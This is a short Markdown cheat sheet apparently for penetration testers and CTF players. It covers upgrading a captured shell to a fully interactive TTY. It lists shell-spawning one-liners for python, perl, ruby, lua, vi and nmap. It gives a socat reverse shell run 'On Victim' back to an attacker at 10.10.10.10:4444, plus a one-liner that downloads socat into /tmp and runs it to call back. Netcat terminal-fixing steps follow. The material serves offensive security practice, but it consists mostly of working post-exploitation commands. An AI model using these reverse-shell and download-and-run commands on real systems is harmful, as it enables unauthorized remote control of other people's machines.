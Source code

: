 # TTY

```
python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import pty; pty.spawn("/bin/bash")'  
python3 -c 'import pty; pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/sh -i
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
IRB: exec "/bin/sh"
vi: :!bash
vi: :set shell=/bin/bash:shell
nmap: !sh
```

## web ttys

- <https://github.com/maxmcd/webtty>

## socat

On Kali (listen):

```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

On Victim (launch):

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```

```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```

## netcat

Send `nc` to background Check the term name and size on local machine with:

```
echo $TERM
stty -a
```

```
stty raw -echo
```

`fg` to being `nc` back up

```
reset
export SHELL=bash
xterm
export TERM=xterm
stty rows 38 columns 116
```

Row and column values are found using `stty -a`.

## References

- <https://netsec.ws/?p=337>
- <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>
- <https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/>
- <https://forum.hackthebox.eu/discussion/142/obtaining-a-fully-interactive-shell>

